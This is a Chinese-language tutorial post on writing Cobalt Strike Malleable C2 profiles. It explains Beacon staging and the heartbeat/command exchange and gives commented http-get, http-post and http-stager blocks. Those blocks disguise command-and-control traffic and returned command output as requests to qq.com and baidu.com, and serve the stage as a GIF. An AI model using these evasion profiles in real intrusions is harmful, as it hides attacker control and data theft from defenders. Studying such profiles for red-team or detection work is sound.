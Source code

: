 ```yaml
---


layout: default
---
```




# Cobalt Strike -- Malleable C2 Profile

## 0x01 Malleable C2 Profile 基础

CobaltStrike提供Melleable C2 Profile文件可以修改Beacon默认的流量以及行为特征，从而达到隐藏自身的效果。按照官方文档的说法，创建配置文件最好的办法就是修改现有的配置文件，[Github](https://github.com/rsmudge/Malleable-C2-Profifiles)上有一个配示例仓库。可以从该仓库中参考定制Profile文件。然后适用cs自带的profile检查工具`c2init`检查Profile是否能正常运行。

### CS基本名词

* `Staging `: 指的是payload分阶段下发的过程

* `Stager` : 是一段短的汇编指令，用来下载stage，并将其注入内存执行

* `Stage` : 是实际最终执行的payload

* `Beacon` : 指在受害机上运行的CS客户端(Payload)

  

### Beacon交互过程

1. 如果Teamserver使用了staging，则stager像teamserver发送一条Get请求获取Payload stage
2. Beacon运行后会向Teamserver发送包含元数据的Get心跳包请求
3. Teamserver收到Beacon的元数据请求后，会发送一个返回包给Beacon，如果Teamserver有命令下发给Beacon，命令会包含在这个返回包里
4. Beacon收到Teamserver带有命令的返回包，执行完任务后，会将回显数据通过POST请求包发送给Teamserver
5. Teamserver收到POST包之后同样会发送一个返回包，这个返回包不包含任何命令等信息，Beacon不对这个返回包进行任何相应，从而循环执行2步骤



## 0x02 Profile详解

### 基本语法

* `#` 为注释信息

* `set`关键字用来赋值

* `{}`花括号用来组合http-get / http-post包含的信息及语句

* 每条语句都以`;`结尾

  

### http-get

`http-get`部分用来自定义Beacon与teamserver交互的2、3过程中的请求。`client`模块对应的是Beacon上传元数据心跳包的请求。`server`模块对应的是Teamserver接收心跳后下发命令的请求包。

```
http-get {
    # 心跳包的请求url
    set uri "/qq.js";

    # 心跳包的请求包的格式，其中metadata是包含beacon客户端的元数据
    client {
        header "Accept" "*/*";
        header "Accept-Encoding" "gzip, deflate";
        header "Host" "www.qq.com";
        header "Cookie" "99187231";
        metadata {
            base64url;
            prepend "https://www.baidu.com";
            header "Referer";
        }
    }

    # 心跳包的返回包格式，其中ouput是包含teamserver下发的命令内容
    server{

        header "Server" "nginx";
        header "Content-Encoding" "text/javascript";

        output{
            base64;
            prepend "{";
            append "};";
            print;
        }
    }
}
```



### http-post

`http-post`部分用来自定义Beacon与Teamserver交互的4、5过程中的请求。`client`模块对应的是Beacon上传命令执行结果的POST请求。`server`模块对应的是Teamserver的返回。

```
http-post{
    # 命令回显结果的请求包的url
    set uri "/search";
    
    # 命令回显的请求包格式，其中包含命令执行返回值，其中需要包括id用来标识会话，output是命令执行结果在请求包中的位置
    client{
        header "Host" "www.baidu.com";

        id {
            base64url;
            prepend "https://t.qq.com/";
            header "Referer";
        }

        output{
            base64url;
            prepend "aid=522005705&accver=1&showtype=embed&ua=";
            print;
        }
    }

    # teamserver收到命令执行结果请求包后的返回包，默认为空
    server{
        header "Server" "nginx";
        header "Content-Type" "application/json";
        header "Connection" "close";
        header "Accept-Ranges" "bytes";
        header "P3P" "CP=CAO PSA OUR";
        
        output{
            base64;
            print; 
        }
    }
    
}
```



### http-stager

 `http-stager`用来自定义HTTP staging 过程，也就是对应的是Beacon与Teamserver交互的第一步。 `set uri_x`设置的是不同位数的payload对应的uri。`client`对应是stager请求stage的请求包。 `server`对应的是stage内容的返回包。

```
http-stager{
    # 第一次获取stage请求的url
  set uri_x86 "/load.gif";
	set uri_x64 "/loading.gif";

    # 获取stage的请求包内容
    client {
        header "Host" "www.qq.com";
	}

    # stage返回包的格式，其中包含stage的payload
    server {
		header "Content-Type" "image/gif";
		output {
			prepend "GIF89a";
			print;
		}
	}
}
```



### http-config 

`http-config`是用来定制CS Web服务的HTTP请求的请求头，如果在上面get和post中一定指定过的header头会被忽略。`set header`用来指定header头的顺序，不在`set header`中的header字段会被排在下面。`set trust_x_forwarded_for`用来指定是否通过`x-forworded-for`来确定远程访问的IP，如果使用了重定向器就需要指定为True

### Profile Variants

在同一个配置文件中配置多个配置模板

### https-certificate

http-certificate主要用来设置SSL证书相关

### stage 

 stage 块控制如何将 Beacon 加载到内存中以及编辑 Beacon DLL 的内容。



## 0x03 参考链接

* [cs官方文档](https://www.cobaltstrike.com/help-malleable-c2)
* [How to Write Malleable C2 Profiles for Cobalt Strike](https://bluescreenofjeff.com/2017-01-24-how-to-write-malleable-c2-profiles-for-cobalt-strike/)
* [深入研究cobalt strike malleable C2配置文件](https://xz.aliyun.com/t/2796)

  

